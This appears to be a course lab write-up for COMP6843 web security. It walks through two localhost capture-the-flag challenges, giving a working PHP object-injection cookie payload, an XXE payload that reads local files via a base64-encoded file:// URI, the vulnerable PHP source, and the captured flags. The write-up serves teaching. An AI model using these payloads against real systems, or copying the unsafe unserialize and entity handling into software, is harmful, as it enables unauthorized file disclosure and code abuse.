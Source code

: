 # Extended Webapp Security (COMP6843)

## Dependent URLS
* Pastebin Of Source - https://pastebin.com/FEv7c4tA

## Challenges and Flags
| Exploit Type | Level | Flag |
| --- | --- | --- |
| Serialize | 0 | EXTBREAK3{A_c3RiAl_kIlLeR} |
| XXE | 0 | EXTBREAK2{XxE_sHoUlD_b_XeE} |

## PHP unserialize
### Level0
![](break2/img/extbreak2serial0.png)

#### Starting up the Challenge Server
```sh
cd break2/serialize
docker-compose up -d
```

The challenge runs at `http://localhost:8000` and can be shutdown with `docker-compose down`.

#### Writeup / Walkthrough
1. Edit the cookie named `level0`
2. Provision payload that instantiates a `print_flag` object.

By default, the cookie value is set to become the value.

```
s%3A6%3A%22friend%22%3B
```

This is the URL encoded form of the serialised string `s:6:"friend";`

By encoding a serialized object within the `level0` cookie, we exploit `$flagObj = unserialize($_COOKIE['level0']);`, in particular the unserialize function.
In order to get the `__tostring()` function of the `print_flag` object to be run when `echo '<span class="alert-success">' . $flagObj  . '</span>';` is hit, running the `__tostring()` method of `print_flag`.

The following payload will cause the flag to be released.
```
O%3A10%3A%22print_flag%22%3A0%3A%7B%7D
```

This url decodes to `O:10:"print_flag":0:{}`. This payload provides the serialised form of an object according to [PHP Serialize](https://secure.php.net/manual/en/function.serialize.php).

`O:strlen(object name):object name:object size:{s:strlen(property name):property name:property definition;(repeated per property)}`

## XML External Entity
### Level0
#### Successful Payload
`http://0.0.0.0:8001/?param=ZmlsZTovLy9hcHAvZmxhZy50eHQ=`

#### Starting up the Challenge Server
```sh
cd break2/xmlee
docker-compose up -d
```

The challenge runs at `http://localhost:8001` and can be shutdown with `docker-compose down`.

#### Writeup / Walkthrough
1. Look at the source to find that there is extra functionality when supplying the `param` argument. It allows you to select which file to open and display where the default is a file located at `/app/boss/all`.

```php
$myXMLData =
'<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE character [
    <!ELEMENT character ANY >
    <!ELEMENT health ANY >
    <!ELEMENT mana ANY >
    <!ELEMENT class ANY >';

if (isset($_GET['param'])) {
    $myXMLData = $myXMLData . '<!ENTITY param SYSTEM "' . base64_decode($_GET['param']) .  '" > ]>';
} else {
    $myXMLData = $myXMLData . '<!ENTITY param SYSTEM "file:///app/boss/all" > ]>';
}

$myXMLData = $myXMLData . '<character>&param;</character>';
```

2. If you base64 encode the right file, you will trigger the local entity inclusion.

```
echo -n file:///app/boss/health | base64
echo -n file:///app/boss/mana | base64
```

3. The flag can be found by creating the value for the `param` parameter and visiting the url via get.

```sh
echo -n file:///app/flag.txt | base64
ZmlsZTovLy9hcHAvZmxhZy50eHQ=
wget http://0.0.0.0:8001/?param=ZmlsZTovLy9hcHAvZmxhZy50eHQ%3D
```


